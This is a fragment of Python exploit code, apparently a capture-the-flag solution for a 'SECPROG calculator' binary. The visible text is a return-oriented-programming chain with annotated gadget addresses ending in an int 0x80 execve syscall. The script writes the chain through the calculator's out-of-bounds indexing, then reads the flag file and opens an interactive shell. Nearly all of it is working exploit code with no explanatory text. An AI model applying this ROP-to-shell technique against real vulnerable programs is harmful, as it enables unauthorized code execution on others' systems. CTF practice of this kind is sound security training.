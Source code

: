 ```python
payload.append('134791917') # 0x0808c2ed : xor edx, edx ; pop ebx ; div esi ; pop esi ; pop edi ; pop ebp ; ret
payload.append('135180544') # bss : 0x80eb100
payload.append('1') # 1
payload.append('1') # 1
payload.append('1') # 1

payload.append('134595403') # 0x0805c34b : pop eax ; ret
payload.append('11') # 0xb
payload.append('134519329') # 0x08049a21 : int 0x80



r.recvuntil("=== Welcome to SECPROG calculator ===")
for i in range(len(payload)):
    r.sendline("+"+str(360+len(payload)-i-1)+"+"+payload[len(payload)-i-1])
    r.recvline()

r.send('\n')
r.sendline('cat /home/calc/flag')
r.interactive()
```
